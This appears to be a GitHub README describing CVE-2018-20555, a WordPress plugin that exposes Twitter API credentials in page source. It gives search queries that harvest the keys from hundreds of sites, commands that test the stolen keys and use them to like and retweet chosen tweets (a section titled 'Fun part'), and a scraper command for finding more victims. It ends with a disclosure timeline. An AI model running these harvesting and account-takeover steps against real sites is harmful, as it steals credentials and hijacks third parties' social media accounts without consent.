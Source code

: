 # CVE-2018-20555
The Wordpress Plugin called [Social Network Tabs](http://www.designchemical.com/blog/index.php/premium-wordpress-plugins/premium-wordpress-plugin-social-network-tabs/), made by the company Design Chemical, is leaking twice the Twitter access_token, access_token_secret, consumer_key and consumer_secret of their user which is leading to a takeover of their Twitter account.

This is caused by the following lines of code within the page where the Twitter widget is displayed:
```javascript
jQuery(document).ready(function ($) {
	var config = {
		widgets: "twitter,facebook,youtube",
		twitterId: "[redacted]",
		facebookId: "[redacted]",
		youtubeId: "[redacted]",
		twitter: {
			url: "https://www.rainx.com/wp-content/plugins/social-network-tabs/inc/dcwp_twitter.php?1=%5Breadcted%5D&2=%5Bredacted%5D&3=%5Bredacted%5D&4=%5Bredacted%5D …",
			title: "Latest Tweets",
			follow: "Follow",
			followId: "",
			limit: "10",
			retweets: true,
			replies: true,
			images: "thumb",
			consumer_key: "[redacted]",
			consumer_secret: "[redacted]",
			access_token: "[redacted]",
			access_token_secret: "[redacted]"
		},
	}
});
```

## Exploitation
Thanks to [Publicwww](https://publicwww.com), with the following search queries, I managed to retrieve the Twitter access_token, access_token_secret, consumer_key and consumer_secret from 539 vulnerable websites:

- dcwp_twitter.php access_token_secret snipexp:|access_token: "([\w\d-._]+)"|
- dcwp_twitter.php access_token_secret snipexp:|access_token_secret: "([\w\d-._]+)"|
- dcwp_twitter.php access_token_secret snipexp:|consumer_key: "([\w\d-._]+)"|
- dcwp_twitter.php access_token_secret snipexp:|consumer_secret: "([\w\d-._]+)"|

All the keys are available in twitter_keys.csv.

## How to
Test the Twitter API keys in twitter_keys.csv
```console
python test_twitter_api_keys.py -t
```
The 1st time I had run this command, I got the information of 446 Twitter accounts. It's worth mentioning that there were 2 verified accounts in the list and multiple accounts with more than 10K+ followers. All the vulnerable accounts are in vulnerable_accounts.txt.

## Fun part
Like the tweet of your choice
```console
python test_twitter_api_keys.py -l [tweet_id]
```

Retweet the tweet of your choice
```console
python test_twitter_api_keys.py -r [tweet_id]
```

The 1st time I run this command, I managed to liked the tweet of my choice 127 times, which shown that 127 Twitter api keys had the read write rights aka I was able to take over 127 Twitter accounts (change profile picture, like, retweet, change bio,...) due to this key leaks.

## UPDATE 17/01/18
A lot of websites and so Twitter accounts are still vulnerable to this issue. In order to identify them, I created a scraper
```console
cd TwitterApiKeysSearchEngine/

scrapy crawl TwitterApiKeysSpider -a keyword="inurl:/inc/dcwp_twitter.php?1=" -a se=google -a pages=10
```
The total of results for this Google search query is 3550. Among the 9 first pages, I managed to retrieved 78 keys (86%). Enjoy!

## Disclosure
- 01/12/18: Disclosure to Twitter
- 0X/12/18: Twitter deactivated all the keys
- 11/12/18: Acknowledgement as a valid security issue by Twitter

## Contact
Follow me on [Twitter](https://twitter.com/fs0c131y)! You can also find a small part of my work at [https://fs0c131y.com](https://fs0c131y.com)

## Credits
The investigation and the POC has been made with ❤️ by @fs0c131y
